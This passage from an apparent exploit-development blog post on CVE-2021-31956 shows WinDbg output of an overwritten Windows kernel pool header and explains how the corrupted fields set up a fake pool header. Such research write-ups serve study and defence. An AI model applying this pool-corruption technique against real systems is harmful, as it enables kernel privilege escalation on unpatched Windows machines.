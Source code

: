 ```
fffff806`3eb5c2e9 e81258f5ff      call    Ntfs!memcpy (fffff806`3eab1b00)
1: kd> p
Ntfs!NtfsQueryEaUserEaList+0x1ca:
fffff806`3eb5c2ee 41897d00        mov     dword ptr [r13],edi

// Adjacent's Chunk Pool Header After Overflow
1: kd> dt nt!_POOL_HEADER ffffc303dce4aa00
   +0x000 PreviousSize     : 0y00010010 (0x12)
   +0x000 PoolIndex        : 0y00000000 (0)
   +0x002 BlockSize        : 0y00000000 (0)
   +0x002 PoolType         : 0y00000100 (0x4)
   +0x000 Ulong1           : 0x4000012
   +0x004 PoolTag          : 0x7441704e
   +0x008 ProcessBilled    : (null) 
   +0x008 AllocatorBackTraceIndex : 0
   +0x00a PoolTagHash      : 0
```

Let's dissect the values of our modified `POOL_HEADER`.
```
PreviousSize: 0x12 (will be multiplied by 0x10, current_chunk-0x120 will point to the fake pool header we are going to setup)
PoolIndex:    0x0  (can be any value, will not be used)
BlockSize:    0x0  (can be any value, will not be used)
PoolType:    PreviousPoolType | 0x4 (OR 4 to set CacheAligned bit)
```

As shown in [part 1](https://3sjay.github.io/2024/09/08/Windows-Kernel-Pool-Exploitation-CVE-2021-31956-Part1.html) we have complete control over these values.

Now when we will free the adjacent chunk, the magic we set up with the overwritten values will take effect and the freeing mechanism will look for a "second" `POOL_HEADER` which points into the data section within the vulnerable chunk due to the `CacheAligned` bit(have a look into the paper of Synacktiv where they describe said mechanism if you want to know more about how this works, as I would just reiterate what they have said and it would put a toll on the reading experience of this blog entry). But the time for this has yet to come, first we need to put a fake `POOL_HEADER` into that place. 



Zoomed In

![Layout Zoomed In](/images/blogpost_part2_images/PoolHeaderOverwriteZoomedIn.drawio.svg)


Zoomed Out

